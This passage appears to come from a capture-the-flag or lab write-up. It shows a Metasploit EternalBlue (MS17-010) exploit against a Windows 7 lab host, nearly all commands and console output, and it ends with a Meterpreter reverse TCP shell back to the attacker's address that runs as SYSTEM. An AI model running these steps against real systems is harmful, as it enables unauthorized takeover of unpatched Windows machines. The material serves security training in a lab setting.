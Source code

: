 Next, let us try to exploit the EternalBlue exploit with option 0.

```
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.16.8
LHOST => 10.10.16.8
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4000
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.16.8:4000 
[*] 10.10.10.40:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.16.8:4000 -> 10.10.10.40:49160) at 2022-01-01 11:36:14 -0500
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
